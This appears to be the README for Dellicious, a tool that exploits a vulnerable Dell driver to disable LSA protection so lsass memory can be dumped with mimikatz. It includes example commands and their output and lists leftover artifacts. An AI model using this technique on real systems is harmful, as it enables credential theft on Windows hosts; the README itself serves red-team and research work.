 # Dellicious

Dellicious is a tool for enabling/disabling LSA protection on arbitrary processes via a vulnerability in Dell's DBUtilDrv2.sys driver (version 2.5 or 2.7). If provided the driver, Dellicious installs it, exploits it, and then removes it. That obviously requires administrator access, but that's fairly normal for LSA Protect bypass techniques. See:

* [PPLKiller](https://github.com/RedCursorSecurityConsulting/PPLKiller) - LSA protect bypass using `rtcore.sys` (and a large influence on this project)
* [mimidrv](https://posts.specterops.io/mimidrv-in-depth-4d273d19e148) - Mimikatz kernel driver. LSA protect bypass by being a signed kernel driver :-D

LSA protection blocks memory access from other processes (a bit of an oversimplifaction but forgive me). When enabled lsass.exe can't have it's memory dumped by tools like mimikatz. Obviously, running mimikatz is extremely desirable for an attacker. Using this tool the attacker is able to disable the protection and dump/access memory.

Similarly, it may be desirable to enable memory protection on our own processes. So Dellicious exposes that functionality as well.

For more reading on LSA protection, I suggest the blog *[Do You Really Know About LSA Protection (RunAsPPL)?](https://itm4n.github.io/lsass-runasppl/)* by Clement Labro (the author of PPLDump).

## Where are the drivers?!

Rapid7 isn't comfortable redistributing the drivers. However, the required files have the following sha-1 hashes:

### dbutildrv2.sys version 2.5

* DBUtilDrv2.cat - [23bbc48543a46676c5cb5e33a202d261a33704fe](https://www.virustotal.com/gui/file/4b93fc56db034bfebb227b1e2af1b5e71cc663ffeffe3b59618f634c22db579d)
* dbutildrv2.inf - [c40ebb395cb79c3cf7ca00f59f4dc17930435fc5](https://www.virustotal.com/gui/file/4e2aa67daab4c4acac3d6d13490f93d42516fa76b8fda87c880969fc793a3b42)
* DBUtilDrv2.sys - [90a76945fd2fa45fab2b7bcfdaf6563595f94891](https://www.virustotal.com/gui/file/2e6b339597a89e875f175023ed952aaac64e9d20d457bbc07acf1586e7fe2df8)

### dbutildrv2.sys version 2.7

* DBUtilDrv2.cat - [06f2b629e7303ac1254b52ec0560c34d72b46155](https://www.virustotal.com/gui/file/c77c24e945acc73d6b723f60bcdc0330ff501eea34b7da95061101dd1120392a)
* dbutildrv2.inf - [19f8da3fe9ddbc067e3715d15aed7a6530732ab5](https://www.virustotal.com/gui/file/56ed7ff7299c83b307282ce8d1def51d72a3663249e72a32c09f6264348b1da2)
* DBUtilDrv2.sys - [b03b1996a40bfea72e4584b82f6b845c503a9748](https://www.virustotal.com/gui/file/71fe5af0f1564dc187eea8d59c0fbc897712afa07d18316d2080330ba17cf009)
* WdfCoInstaller01009.dll - [c1e821b156dbc3feb8a2db4fdb9cf1f5a8d1be6b](https://www.virustotal.com/gui/file/3b9264416a78f5eab2812cd46b14f993815e9dbf5bd145b3876c2f0f93b98521)

## Example CLI Usage

In the following, lsass.exe is pid 736. I've instructed Dellicious to disable protection using DBUtilDrv2.sys version 2.7.

```
C:\Users\albinolobster\Desktop>.\dellicious.exe
option "pid" is required
Allowed options:
  -h, --help             produce help message
  -p, --pid arg          the target pid
  -e, --enable arg       enable memory protection (0 or 1)
  -d, --driver_path arg  The path to the driver inf, cat, and sys (and coinstaller)


C:\Users\albinolobster\Desktop>.\dellicious.exe -p 736 -e 0 -d C:\Users\albinolobster\Desktop\drivers\2_7\
[+] User provided pid: 736
[+] User provided driver directory: C:\Users\albinolobster\Desktop\drivers\2_7\
[+] Windows version found: 2009
[+] Using offsets:
        UniqueProcessIdOffset = 0x440
        ActiveProcessLinkOffset = 0x448
        SignatureLevelOffset = 0x878
[+] Attempting driver install...
[+] Driver installed!
[+] Device handle has been obtained @ \\.\DBUtil_2_5
[+] Ntoskrnl base address: fffff80229200000
[+] PsInitialSystemProcess address: ffffd00336c92180
[+] Target process address: ffffd00338c970c0
[+] Current SignatureLevel, SectionSignatureLevel, Type, Audit, and Signer bits (plus 5 bytes): 40c0000041083c
[+] Writing flags back as: 40c00000000000
[+] Done!
[+] Removing device
[!] Clean exit! o7
```

## Artifacts

This does leave artifacts on disk. Currently I don't clean up:

* Files in C:\Windows\Temp\
* Logging data in C:\Windows\INF\setupapi.dev
* DBUtilDrv2 service is left running (although it's in a bad / unusable state and will go away on reboot)
* DBUtilDrv2 is left in the driverstore
* I'm sure there are things in the event log that indicate driver installed / removed, etc.

## Credit

This codebase is heavily influenced by PPLKiller (mentioned above). It also was influenced by the dbutil_2_3.sys metasploit module as well as [Mitch Zakocs'](https://www.mitchellzakocs.com/blog/dbutil) write up on CVE-2021-21551.
